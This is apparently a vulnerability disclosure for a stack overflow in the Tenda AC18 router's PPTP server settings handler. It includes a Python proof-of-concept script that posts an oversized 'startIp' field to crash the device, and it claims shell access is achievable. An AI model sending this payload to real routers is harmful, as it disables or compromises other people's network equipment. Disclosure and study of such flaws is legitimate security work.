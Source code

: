## Tenda AC18 stack overflow vulnerability

## 1. Affected version
V15.03.05.19

## 2. Vulnerability details

A stack overflow vulnerability exists in the formSetPPTPServer function of the Tenda AC18 V15.03.05.019 firmware. 
The v27 variable retrieves the startIP parameter from a POST request without proper validation, and then the contents matched by v27 
and put into the v19 without size checking, resulting in a stack overflow.
   
   ![My Image](9.png)

## 3 POC
```python
import requests

url = 'http://IP:port/goform/SetPptpServerCfg'

headers = {"Cookie": "password=You cookie"}

data = {
    'serverEn': 2,
    'startIp': 'l' * 10000
}
r = requests.post(url=url, headers=headers, data=data)
res = r.text
print(res)
```
You can observe the router crashing, and ultimately, it is possible to craft an exploit to gain a shell.
